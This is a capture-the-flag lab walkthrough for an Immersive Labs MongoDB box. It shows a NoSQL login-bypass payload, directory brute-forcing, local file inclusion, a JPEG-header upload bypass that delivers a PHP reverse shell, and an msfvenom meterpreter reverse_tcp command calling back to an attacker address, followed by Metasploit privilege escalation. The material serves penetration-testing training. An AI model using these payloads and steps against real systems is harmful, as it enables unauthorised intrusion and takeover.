 ```yaml
---
date: 2025-03-11
categories: [CTF, ImmersiveLabs]
title: "IML - MongoDB NoSQL Injection"
tags: ['gobuster', 'linux', 'privilege escalation', 'python', 'rce', 'reverse shell', 'sqli', 'mongodb', 'nosqli', 'tryhackme', 'hackthebox', 'immersivelabs', 'thm', 'iml', 'htb']

description: "MongoDB NoSQL Injection - A walkthrough of the challenge with enumeration, exploitation and privilege escalation steps."
---
```


---
---

# IML - MongoDB NoSQL Injection

- Scan:

![image1](../resources/dc68505ba0864de89dcbc29127f8388e.png)

- Going to Port 80:

![image2](../resources/a7898c43ea7041698d258cb4e54b8357.png)

- We get a Login page and since this box is a MongoDB box, we can assume this is NoSqli

- Looking on:
<https://book.hacktricks.xyz/pentesting-web/nosql-injection>


![image3](../resources/c9def18806cf4472be56dc2ece822dd4.png)

**username\[\$ne\]=toto&password\[\$ne\]=toto**

- We need to see how the server crafts its authentication
- Open Burp Suite and capture the traffic from a login


![image4](../resources/a27c94f24a8c41c0afcd125882cd4ae2.png)

- Send this to the Repeater and change the authentication line

![image5](../resources/bfa8a8a7fb6e41628d11a6e18b6a68e9.png)

- Send it off and look at the Response (If this doesn't work - reset machine)

![image6](../resources/8bf395c7e7504e80aa048e02d2b92711.png)

**admin : Superhardpassword**

- Login with the credentials


![image7](../resources/d6631dba9b19474980bb6031b286edec.png)

- After trying to upload non jpeg files with a .jpeg extension and getting FAILED everytime, it's time to consider something else.
The jpeg header

- Since this Kali machine is closed off from the internet, we can search the machine itself for a jpeg image file:

```bash
find / -type f -name "\*.jpeg" 2>/dev/null

```

![image8](../resources/29bf84d6e48f48ca8ddf5362ec7eda7d.png)


![image9](../resources/7ef1dab00d0341a0a00afe4ac8944f61.png)

- Upload the thumbnail.jpeg and we get success:

![image10](../resources/fec7fe7f170c4c9c90b943774540a542.png)

- Through testing - all it needs to be successful is to have .jpeg at the end and for the data to start with:

![image11](../resources/b65bc279152b4a6293f90fb5cee5dc8b.png)

As show here:


![image12](../resources/26d3d3be75984cdf99a8f9e6ad2e5558.png)

- We can bruteforce for directories to see if we can execute the file (if we uploaded something malicious):

```bash
gobuster dir -u http://10.102.114.88 -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-large-directories-lowercase.txt

```

![image13](../resources/61b9f6553bbf475e903c13677738c706.png)

- In /img:

![image14](../resources/a3527fc433964ac187cef8147bededf5.png)

- As this didn't lead to anything. I did another scan but with extensions this time:

```bash
gobuster dir -u http://10.102.114.88 -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-large-directories-lowercase.txt -x .php

```

![image15](../resources/e1c51a5287f84c94bb2851f546978d20.png)

- If we look at /test/php:

![image16](../resources/3a0220dc3cff4b11a1e1686ba6e89040.png)

- This is a LFI vulnerability:

![image17](../resources/8c9ca2bf342d4c53b31d3ee9b801d5a7.png)

We can access some of the mongodb file like mongod.conf and mongod.log


![image18](../resources/5200828d9e1c4f93a6a3909c7a0b0ba1.png)

As well as check what apps are running - /proc/self/cmdline


![image19](../resources/299d41fb79944563858602dc2d51812d.png)
- We can also see if we can get any ssh private keys
- But that didn't give much

- We can get to the /img directory (where the uploaded images were stored):

![image20](../resources/7aab26b12e66490cae891130a80b43a0.png)

- So the way I got this to work is:

- Upload a legitimate .jpg file
- Capture the request in Burp
- Send to Repeater

- Now remove all the jpeg data, **apart** from the first (JFIF) line
- Paste in the php reverse shell code under this line
(I used pentestmonkey's script - <https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php>)

- Also rename the filename so it ends with **.php.jpg**

- So it looks like this:

![image21](../resources/0e6e05be2b5a40918d63673f96224047.png)

Don't upload the php directly, and then try and add the JFIF line afterwards - it doesn't recognize it and will fail

- Send that request and you should get Successful

- Set up a nc listener on the port you specified in the script

- And in a new Burp request (captured from the LFI):
Go to /var/www/html/img/**\<image_name\>**.php.jpg


![image22](../resources/b7915beb3bbf44f88e8d9ed613b3fc83.png)

- And we got a shell:

![image23](../resources/eef72054242e4fb1b669d0d17cbdc442.png)

- Upgrade the shell:
/usr/bin/script -qc /bin/bash /dev/null

**<u>Priv Esc</u>**
- Querying MongoDB didn't give anything:

![image24](../resources/e334e020bbd54d808d8b9bca8b46f62e.png)

- After lots of enumerating - found nothing so to get root I did:

- Created a meterpreter payload:

```bash
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=10.102.143.238 LPORT=8881 -f elf -o reverse.elf

```

![image25](../resources/0aedcd2630bb4e57a534c7bb2a975d38.png)

- Uploaded the payload to the target with python server and curl

- Once I got the meterpreter session back, I used the module - **multi/recon/local_exploit_suggester** to give me potential priv esc modules:

![image26](../resources/b93bca4bf16d4288883f1cd8e6f5a616.png)

- I then used the module - **exploit/linux/local/bpf_sign_extension_priv_esc** to get root and get the flag:

![image27](../resources/ade1d27ea346404fbd1956b4e57081f0.png)
